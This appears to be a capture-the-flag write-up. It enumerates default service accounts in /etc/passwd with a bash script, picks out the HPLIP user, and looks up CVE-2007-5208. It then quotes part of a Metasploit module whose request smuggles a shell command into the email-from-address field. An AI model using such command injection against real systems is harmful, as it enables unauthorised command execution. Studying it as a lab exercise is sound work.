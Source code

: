 ```bash
#!/bin/bash

LIST="_apt, avahi, backup, bin, colord, daemon, dnsmasq, games, geoclue, gnats, hplip, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, pulse, rtkit, saned, speech-dispatcher, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, tss, usbmux, uucp, www-data"

IFS=", " 

for usr in $LIST;
do
	found=$(grep $usr /etc/passwd)
	if [ "$found" = "" ]; then
		echo $usr
	fi
done
```

After running this script, the users that weren't present in my own /etc/passwd were:

- dnsmasq
- hplip
- postfix
- postmaster

`dnsmasq`, `postfix`, and `postmaster` make sense. But what's this `hplip`?

Googling this username showed that it is the user for "[HP's Linux Imaging and Printing software (HPLIP)](https://developers.hp.com/hp-linux-imaging-and-printing)". Ok, it's a driver. Drivers aren't always very secure - maybe this one isn't?



### HPLIP

Checking searchsploit revealed something juicy. Maybe it'll work:

![searchsploit hplip](searchsploit%20hplip.png)

I looked up the [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-5208). This definitely might be applicable for this box:

> hpssd in Hewlett-Packard Linux Imaging and Printing Project (hplip) 1.x  and 2.x before 2.7.10 allows context-dependent attackers to execute  arbitrary commands via shell metacharacters in a from address, which is  not properly handled when invoking sendmail.

Naturally, HPLIP is not exposed to the internet right now, so running this exploit through metasploit did not work. However, from the CVE description it sounds like maybe this could work by interacting with smtp over telnet instead.

Here is an excerpt from the exploit code ``linux/remote/16837.rb``:

```ruby
connect

#cmd = "nohup " + payload.encoded
cmd = payload.encoded

username = 'root'
toaddr = 'nosuchuser'

# first setalerts
print_status("Sending 'setalerts' request with encoded command line...")
msg = "username=#{username}\n" +
	"email-alerts=1\n" +
	#"email-from-address=`#{cmd}`\n" +
	"email-from-address=x;#{cmd};\n" +
	"email-to-addresses=#{toaddr}\n" +
```